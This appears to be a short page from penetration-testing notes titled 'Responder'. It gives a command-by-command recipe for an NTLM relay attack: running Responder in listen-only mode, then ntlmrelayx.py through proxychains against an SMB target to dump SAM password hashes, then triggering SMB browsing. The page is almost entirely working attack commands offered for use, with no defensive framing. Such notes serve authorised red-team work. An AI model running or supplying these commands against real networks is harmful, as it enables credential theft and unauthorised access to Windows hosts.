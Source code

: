```yaml
---
title: Responder
parent: General Usage
layout: default
nav_order: 32
---
```


First you need to configure Responder. Change Responder.conf and make sure `SMB=Off` and `HTTP=Off` (this will make it listen and not respond)

Then run Responder:\
`sudo python3 ./Responder.py -I <interfacename> -dwv`

Then this will get you the admin hash (this example is on proxychains, remove if not using):\
`sudo proxychains4 -f ~/Desktop/anotherchains.conf ntlmrelayx.py -of SAMhashes -t smb://<targetIP> -smb2support`

Finally you need to trigger the browsing of SMB/others (this will never work against same target usually)